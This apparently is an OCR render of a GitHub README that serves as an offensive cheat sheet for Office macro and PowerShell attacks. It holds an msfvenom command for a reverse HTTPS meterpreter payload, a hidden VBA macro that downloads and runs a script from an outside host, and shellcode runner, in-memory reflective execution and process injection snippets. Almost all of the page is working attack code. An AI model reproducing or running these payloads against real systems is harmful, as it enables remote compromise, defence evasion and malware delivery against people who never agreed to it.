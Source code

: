 ```
sfvenom -p windows/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 EXITFUNC=thread -f ps1
```

###### Office Powershell Download & Exec

Host the Powershell and execute it via VBA macro

```
Sub MyMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadString('http://192.168.49.83/run.ps1') | IEX"
    Shell str, vbHide
End Sub
```

###### Office Powershell Shellcode Runner via Add-Type Compilation

Use P/Invoke to allocate executable memory via VirtualAlloc, copy shellcode, and execute via CreateThread. *Note, compilation of the Powershell's C# code compilation temporarily writes to disk.*

[Full Source](../src/powershell/ScRunner.ps1)

```
[IntPtr]$addr = [Kernel32]::VirtualAlloc(0,$size,0x3000,0x40);

[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $size)

$thandle = [Kernel32]::CreateThread(0,0,$addr,0,0,0);

[Kernel32]::WaitForSingleObject($tHandle, [uint32]"0xFFFFFFFF")
```

###### Office Powershell Basic Shellcode Runner In Memroy

Add-Type calls csc compiler, writing to disk. Dynamic lookup executes in memory via DelegateType Reflection. 

[Full Source](../src/powershell/ReflectiveScRunner.ps1)

```
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $lpMem, $buf.length)
$hThread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll CreateThread), (getDelegateType @([IntPtr], [UInt32], [IntPtr], [IntPtr],[UInt32], [IntPtr])([IntPtr]))).Invoke([IntPtr]::Zero,0,$lpMem,[IntPtr]::Zero,0,[IntPtr]::Zero)
[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll WaitForSingleObject), (getDelegateType @([IntPtr], [Int32])([Int]))).Invoke($hThread, 0xFFFFFFFF)
```

###### Office Powershell Process Injection Shellcode Runner In Memory

[Full Source](../src/powershell/ReflectiveInject.ps1)

```
$ProcessID = 8308
$hProcess = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll OpenProcess), `
(getDelegateType @([UInt32], [bool], [UInt32])([IntPtr]))).Invoke(0x001F0FFF, $false, $ProcessID)
if (!$hProcess)
{
    Throw "Unable to open a process handle for PID: $ProcessID"
}
Write-Host "[+] hProcess: " $hProcess
```
